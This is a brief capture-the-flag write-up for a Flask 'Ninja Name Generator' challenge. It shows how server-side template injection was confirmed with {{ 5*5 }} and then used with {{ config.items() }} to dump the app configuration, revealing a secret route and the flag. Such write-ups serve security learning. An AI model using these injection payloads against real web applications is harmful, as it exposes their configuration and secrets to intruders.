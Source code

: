 # Ninja Name Generator

Straightforward app, enter a name, and your ninja name gets revealed:

![app](images/app.png)

When you are able to see your input being reflected back onto the page like this, it is a good idea to check for template injection. I entered `{{ 5*5 }}` as my name. The server responded with `25 KATANA` as the generated ninja name, proving the vulnerability.

The API responses also include a header that reveal the backend server is Python:
```
Server: Werkzeug/1.0.1 Python/3.9.0
```

Next, I found a [template injection cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), and looked for things that would work for Python.

The payload `{{ config.items() }}` can be used to find the server configuration, granting this tongue twister of a ninja name:

```python
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('LOGGER_NAME', '__main__'), ('SERVER_NAME', None), ('APPLICATION_ROOT', None), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', 43200), ('TRAP_BAD_REQUEST_ERRORS', False), ('TRAP_HTTP_EXCEPTIONS', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', True), ('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')]) Shikoro
```

That last tuple, `('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')`, looks interesting.

Navigating to `/_5uPer_s3cret_` reveals our flag: `H2G2{j1nJ4_1s_s3cure}`.
